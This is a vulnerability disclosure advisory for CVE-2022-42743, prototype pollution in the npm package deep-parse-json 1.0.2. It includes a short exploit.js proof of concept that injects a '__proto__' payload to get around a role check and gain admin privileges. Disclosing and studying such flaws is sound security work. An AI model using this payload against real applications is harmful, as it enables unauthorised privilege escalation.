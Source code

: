 ```yaml
---
slug: advisories/buuren/
title: deep-parse-json 1.0.2 - Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: buuren
product: deep-parse-json 1.0.2 - Prototype Pollution
date: 2022-10-19 03:00 COT
cveid: CVE-2022-42743
severity: 7.3
description: deep-parse-json 1.0.2     -    Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, Deep Parse Json, Prototype Pollution
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | deep-parse-json 1.0.2 - Prototype Pollution                        |
| **Code name**         | [Buuren](https://en.wikipedia.org/wiki/Armin_van_Buuren)           |
| **Product**           | deep-parse-json                                                    |
| **Affected versions** | Version 1.0.2                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-19                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-42743](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42743)                                             |

## Description

Version 1.0.2 of deep-parse-json allows an external attacker to edit
or add new properties to an object. This is possible because the
application does not correctly validate the incoming JSON keys, thus
allowing the `__proto__` property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when
a third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so,
then it calls it. If not, it looks in the object's prototype. If the
method/attribute is also not in the object's prototype, then the
property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property
into an object, he will succeed in injecting or editing its properties.

## Exploitation

### exploit.js

```js
const { deepParseJson } = require('deep-parse-json')

let admin = {name: "admin", role:"admin"};
let user  = {name: "user", role:"user"};

let normal_user_request    = JSON.parse('{"name":"user","role":"admin"}');
let malicious_user_request = JSON.parse('{"name":"user","__proto__":{"role":"admin"}}');

const create_user = (new_user) => {
    // A user cannot alter his role. This way we prevent privilege escalations.
    if(new_user?.role && new_user?.role.toLowerCase() === "admin") {
        throw "Unauthorized Action";
    }
    user = deepParseJson(new_user, user);
    console.log(user?.role);
}

try {
    create_user(normal_user_request);
} catch (error) {
    console.log(error);
}
finally {
    create_user(malicious_user_request);
}
```

## Evidence of exploitation

![Prototype-Pollution](https://user-images.githubusercontent.com/51862990/196779711-510dd9cf-35b6-413c-8498-b3dc6b283a42.png)

## Our security policy

We have reserved the CVE-2022-42743 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: deep-parse-json 1.0.2

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/sibu-github/deep-parse-json>

## Timeline

<time-lapse
  discovered="2022-10-06"
  contacted="2022-10-06"
  replied="2022-10-06"
  confirmed=""
  patched=""
  disclosure="2022-10-19">
</time-lapse>
